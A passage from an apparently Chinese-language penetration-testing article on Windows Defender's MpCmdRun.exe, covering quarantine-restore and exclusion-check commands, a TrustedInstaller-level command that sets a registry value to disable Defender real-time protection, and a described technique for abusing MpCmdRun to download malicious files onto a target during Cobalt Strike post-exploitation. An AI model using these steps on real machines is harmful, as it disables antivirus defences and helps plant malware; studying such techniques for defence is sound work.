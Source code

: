 ### 常用命令

查看被隔离的文件列表

```
MpCmdRun -Restore -ListAll
```

![](https://p4.ssl.qhimg.com/t01c4d1c77c82c1a05b.png)

恢复指定名称的文件至原目录

```
MpCmdRun -Restore -FilePath C:\tide\7.exe
```

恢复所有文件至原目录

```
MpCmdRun -Restore -All
```

![](https://p3.ssl.qhimg.com/t016415001d021d3056.png)

查看指定路径是否位于排除列表中

```
MpCmdRun -CheckExclusion -path C:\test
```

## 补充1：获取TrustedInstaller权限

### AdvancedRun

AdvancedRun是运行于Windows系统的轻量级程序设置优先级软件，可以轻松设置程序运行优选级，并且还能够支持通过命令行调用设置，也支持将参数保存为配置文件，以便于更好进行使用。  
在图形化界面

![](https://p0.ssl.qhimg.com/t01bc236f0d53bce175.png)

或者使用命令行

```
AdvancedRun.exe /EXEFilename "%windir%\system32\cmd.exe" /CommandLine '/c reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /d 1 /t REG_DWORD /f' /RunAs 8 /Run
```

## 补充2：MpCmdRun.exe利用

### MpCmdRun恶意文件下载

Windows Defender自带的命令执行工具”MpCmdRun.exe”可以用来实现远程下载恶意文件的目的，但是免杀好像还是不太可靠，不过我们可以在cmd中关闭Windows Defender，所以这样一来，一结合就变得有意思多了，不管在使用该思路的过程中还需要权限提升，但是CS因为在后渗透测试中有很好的辅助功能，所以总体来说还是划算的~  
PS：经过实验发现在新版本中下载任何文件Windows defender都会报毒并隔离（下图），若尝试关闭实时保护则mpcmdrun不可用。。。不过老版本defender还是可以的。  
在目标主机上使用Windows Defender自带的MpCmdRun.exe程序下载恶意文件
